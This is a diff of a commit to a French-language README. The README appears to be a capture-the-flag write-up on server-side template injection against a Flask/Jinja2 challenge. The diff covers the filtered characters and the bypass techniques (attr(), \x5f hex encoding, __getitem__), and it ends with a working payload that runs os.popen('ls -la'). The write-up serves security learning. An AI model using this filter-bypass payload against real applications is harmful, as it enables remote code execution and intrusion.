

Before and after one commit to exploit4040/SSTI2, a Markdown page: README.md, the part around one of its changes. Shown at 85% size. GitHub-like rendering; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -68,27 +79,27 @@ Fort de cette confirmation, essayons un payload SSTI classique pour exécuter de
 > Stop trying to break me >:(
 
-Le WAF (Web Application Firewall) a bloqué notre tentative. Il filtre certains caractères et mots-clés. Le défi SSTI2 est donc un SSTI avec filtres qu'il faut contourner.
+Un pare-feu applicatif (WAF) a bloqué la tentative. Le défi ajoute donc un filtre de caractères qu’il faut contourner.
 
-### 3.1. Analyse des caractères filtrés
+### 3.1. Caractères filtrés
 
-Après plusieurs tests, on déduit que le filtre bloque probablement :
+Après tests, le filtre bloque probablement :
 
-| Caractère / Motif | Raison |
-|-------------------|--------|
-| `.` (point) | Empêche l'accès direct aux attributs (ex: `config.__class__`) |
-| `_` (underscore) | Empêche l'utilisation de `__class__`, `__globals__`, etc. |
-| `[` `]` (crochets) | Empêche l'accès aux dictionnaires (ex: `['os']`) |
-| `'` `"` (guillemets) | Empêche les chaînes littérales |
-| `join` | Également filtré dans certains cas |
-| `0x` | Encodage hexadécimal classique bloqué |
+| Caractère / Motif   | Raison                                                  |
+|---------------------|---------------------------------------------------------|
+| `.` (point)         | Empêche l’accès direct aux attributs (`config.__class__`) |
+| `_` (underscore)    | Bloque `__class__`, `__globals__`, etc.                 |
+| `[` `]` (crochets)  | Stoppe l’accès aux dictionnaires (`['os']`)             |
+| `'` `"` (guillemets)| Bloque les chaînes littérales                           |
+| `join`              | Également filtré dans certains cas                      |
+| `0x`                | Encodage hexadécimal classique bloqué                   |
 
 ---
 
-## 4. Techniques de Contournement
+## 4. Techniques de contournement
 
 ### 4.1. Contournement du point (`.`) avec `|attr()`
 
-Jinja2 fournit un filtre appelé **`attr()`** qui permet d'accéder à un attribut par son nom sous forme de chaîne :
+Jinja2 propose le filtre `attr()` pour accéder à un attribut via son nom sous forme de chaîne :
 
 ```jinja2
 {{ 'foo'|attr('upper') }}
@@ -97,25 +108,22 @@ Jinja2 fournit un filtre appelé **`attr()`** qui permet d'accéder à un attrib
 
+**Résultat :** `FOO` — La méthode `upper()` est appelée par l’intermédiaire d’`attr()`.
+Chaque `.` peut donc être remplacé par `|attr('nom_attribut')`.
 
-**Résultat :** `FOO` — La méthode `upper()` a été appelée via `attr()`.
-On remplace donc chaque `.` par `|attr('nom_attribut')`.
+### 4.2. Contournement de l’underscore (`_`) par encodage hexadécimal
 
-### 4.2. Contournement des underscores (`_`) avec Hex Encoding
+Le double underscore `__` est bloqué. En Python, le caractère `_` a la valeur hexadécimale `\x5f`. On peut l’intégrer dans les chaînes.
 
-Le double underscore `__` est bloqué. En Python, on peut encoder les caractères en hexadécimal. Le caractère `_` a pour valeur hexadécimale `0x5f`. Dans les chaînes Python, on l'exprime comme `\x5f`.
-
-Ainsi :
-
-| Bloqué | Encodé |
-|--------|--------|
-| `__` | `\x5f\x5f` |
-| `__class__` | `\x5f\x5fclass\x5f\x5f` |
-| `__globals__` | `\x5f\x5fglobals\x5f\x5f` |
-| `__builtins__` | `\x5f\x5fbuiltins\x5f\x5f` |
-| `__import__` | `\x5f\x5fimport\x5f\x5f` |
+| Bloqué                 | Encodé en hexadécimal               |
+|------------------------|--------------------------------------|
+| `__`                   | `\x5f\x5f`                           |
+| `__class__`            | `\x5f\x5fclass\x5f\x5f`              |
+| `__globals__`          | `\x5f\x5fglobals\x5f\x5f`            |
+| `__builtins__`         | `\x5f\x5fbuiltins\x5f\x5f`           |
+| `__import__`           | `\x5f\x5fimport\x5f\x5f`             |
 
 ### 4.3. Contournement des crochets (`[]`) avec `__getitem__`
 
-Au lieu d'écrire `dict['cle']`, on utilise la méthode magique `__getitem__` via `attr()` :
+Au lieu de `dict['cle']`, on utilise la méthode magique `__getitem__` via `attr()` :
 
 ```jinja2
 |attr('__getitem__')('__builtins__')
@@ -124,19 +132,18 @@ Au lieu d'écrire `dict['cle']`, on utilise la méthode magique `__getitem__` vi
 
-Équivaut à : `['__builtins__']`
+Cela équivaut à `['__builtins__']`.
 
-### 4.4. Utilisation de `request` comme point d'entrée
+### 4.4. Utilisation de `request` comme point d’entrée
 
-Plutôt que d'utiliser `config` ou `self` (qui sont plus verbeux), on utilise l'objet **`request`** de Flask, qui est accessible dans tous les templates et donne accès à l'application Flask ainsi qu'à ses globals.
+Plutôt que de passer par `config` ou `self`, on exploite l’objet **`request`** de Flask, accessible dans tous les templates. Il donne accès à l’application Flask et à ses variables globales.
 
-**Chaîne complète de remontée d'attributs :**
-
+**Chaîne d’attributs :**
 ```
 request → request.application → application.__globals__ → __builtins__ → __import__ → os → popen
 ```
 
 ---
 
-## 5. Exploitation — Payload Final
+## 5. Payload final et exploitation
 
 ### 5.1. Lister le répertoire
 
@@ -144,4 +151,5 @@ request → request.application → application.__globals__ → __builtins__ →
 {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}
 ```
 
+**Décomposition détaillée :**
 
````
Also changed, not shown: other parts of README.md (+74 -74 lines).
